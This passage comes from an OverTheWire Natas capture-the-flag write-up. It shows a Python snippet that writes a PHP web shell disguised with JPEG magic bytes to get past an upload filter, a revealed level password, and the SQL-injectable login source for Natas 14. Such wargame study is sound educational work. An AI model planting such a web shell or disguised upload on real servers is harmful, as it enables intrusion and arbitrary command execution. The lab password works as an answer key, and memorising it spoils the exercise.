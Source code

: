 ```
Offset:   00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F 	
00000000: FF D8 FF DB 3C 21 2D 2D 20 42 79 20 6A 75 73 74    .X.[<!--.By.just
00000010: 69 6E 2D 70 20 28 68 74 74 70 73 3A 2F 2F 72 61    in-p.(https://ra
```

Python could also be used to add the magic bytes.

```python
fh = open('p_shell.php', 'w')
fh.write('\xFF\xD8\xFF\xE0' + '<?php if (empty($_POST[\'cmd\'])) {$cmd = "";} elseif (!empty($_POST[\'cmd\'])) {$cmd = shell_exec($_POST[\'cmd\']);} ?><form method="POST"><input type="text" style="width:100%;height:25px;" name="cmd" id="cmd" value="<?php if (!empty($_POST[\'cmd\'])) {htmlspecialchars($_POST[\'cmd\'], ENT_QUOTES, \'UTF-8\');} ?>" required><button type="submit" class="btn btn-primary">Execute</button></form><?php if (!$cmd && $_SERVER[\'REQUEST_METHOD\'] != \'POST\'): ?><small>Enter command.</small> <?php elseif ($cmd): ?><pre><?= htmlspecialchars($cmd, ENT_QUOTES, \'UTF-8\') ?></pre> <?php elseif (!$cmd && $_SERVER[\'REQUEST_METHOD\'] == \'POST\'): ?><small>No results.</small> <?php endif; ?>')
fh.close()
```

Upload the file and cat the password file  
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

## Natas 14

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
```